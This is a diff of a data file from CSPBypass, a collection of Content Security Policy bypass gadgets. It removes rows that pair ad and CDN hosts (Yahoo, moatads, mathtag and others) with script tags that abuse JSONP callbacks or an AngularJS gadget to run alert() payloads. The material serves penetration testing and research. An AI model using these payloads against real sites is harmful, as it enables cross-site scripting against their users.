

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Removed bypasses that no longer work. Made some small changes to ones that need https or had syntax errors.

```diff
--- a/data.tsv
+++ b/data.tsv
-row 9: ads.yap.yahoo.com | <script src="https://ads.yap.yahoo.com/nosdk/wj/v1/getAds.do?locale=en_us&agentVersion=205&adTrackingEnabled=true&adUnitCode=2e268534-d01b-4616-83cd-709bd90690e1&apiKey=P3VYQ352GKX74CFTRH7X&gdpr=false&euconsent=&publisherUrl=https%3A%2F%2Fwww.autoblog.com&cb=alert();"></script>
-row 49: bebezoo.1688.com | <script src="https://bebezoo.1688.com/fragment/index.htm?callback=alert(1337)"></script>
-row 93: geo.moatads.com | <script src="https://geo.moatads.com/n.js?callback=alert(document.domain)"></script>
-row 113: js-smb.devices.ovoenergy.com | <script src="https://js-smb.devices.ovoenergy.com/js-smb.min.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
-row 136: pixel.mathtag.com | <script src="https://pixel.mathtag.com/u/js?callback=alert(1)"></script>
```
Also changed, not shown: 14 removed rows and 3 edited cells elsewhere in this file, 1 other file.
